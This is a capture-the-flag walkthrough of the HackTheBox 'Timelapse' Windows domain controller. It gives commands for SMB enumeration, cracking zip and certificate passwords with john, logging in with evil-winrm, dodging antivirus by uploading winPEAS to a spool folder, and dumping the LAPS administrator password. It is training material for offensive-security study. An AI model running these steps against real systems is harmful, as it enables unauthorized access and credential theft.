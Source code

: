 ```yaml
---

title: Box - Timelapse
published: true
---
```


HackTheBox CTF Box - Remote access comes in different flavors.


![0xskar](/assets/timelapse01.jpg)

* * *

## Nmaps

```shell
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-08 06:01:53Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-07-08T06:04:57+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233 a199 4504 0859 013f b9c5 e4f6 91c3
| SHA-1: 5861 acf7 76b8 703f d01e e25d fc7c 9952 a447 7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56949/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=7/7%OT=53%CT=%CU=%PV=Y%G=N%TM=62C75889%P=x86_64-pc-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=U)
OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS%O6=M539NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-08T06:04:17
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24458/tcp): CLEAN (Timeout)
|   Check 2 (port 32357/tcp): CLEAN (Timeout)
|   Check 3 (port 13478/udp): CLEAN (Timeout)
|   Check 4 (port 22941/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

* * * 

## Enumerate SMB

- List shares ``smbclient -L 10.10.11.152``
- We find a backup file and some other files lets wget everything
- The winrm_backup.zip is password protected, lets feed to john.

1. ``zip2john winrm_backup.zip > winrm_backuphash``
2. ``john winrm_backuphash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
3. supremelegacy lets open the zip

- We're left with ``legacyy_dev_auth.pfx`` which is some sort of security cert.

Being a noob, and trying to figure out what a .pfx file even is I came accross this site: [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file). So gong to follow these steps and see where that takes me.

1. ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key``

- Okay so we're promt for a password...
- After doing some searching looks like we can use john for this.

1. ``pfx2john legacyy_dev_auth.pfx > legacyy_hash``
2. ``john legacyy_hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --rule /usr/share/john/rules/rockyou-30000.rule``
3. We now have the password to access the key.
4. Extract the private key ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key -nodes`` we need to add -noDES to the end to avoid encryption
5. Extract the certificate ``openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.cert``
6. Decrypt the private key ``openssl rsa -in legacyy.key -out legacyy-decrypt.key``

- Remove the header from the .key
- Now we should be able to use evil-winrm to access the system.

* * * 

## Evil-WinRM & Root

- ``evil-winrm -S -k legacyy.key -c legacyy.cert -i 10.10.11.152``

Now that we're connected we can continue with enumeration.

- ``whoami /user``
- ``whoami /priv``
- Upload winpeas ``upload winPEASx64.exe``
- We cant run this it thinks its a virus, but maybe it will run in spool dir

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``upload winPEASx64.exe``

- Not much but there is Console History

![0xskar](/assets/timelapse02.png)

- Because svc_deploy is being used here - We can reuse these credentials to pass commands via PS-Remoting using this formula ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}``

```shell
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/8/2022 5:26:09 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

- So we can use ``svc_deploy`` to extract the ``Local Administrator`` password because they are a member of the ``LAPS_Readers`` group.

- Check for LAPS Password using AD-Module ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}``

```shell
PSComputerName              : localhost
RunspaceId                  : ffe8479d-c003-4175-a215-7adbabdd5090
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : d)#YQuU5gTQi%e6Eb(k5-VQH
ms-Mcs-AdmPwdExpirationTime : 133021880961083881
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```

- We can now use ``evil-winrm`` to PS-Remote with this credential.
- ``evil-winrm -S -u 'Administrator' -p 'd)#YQuU5gTQi%e6Eb(k5-VQH' -i 10.10.11.152``
- root.txt is on the admin's desktop

* * *

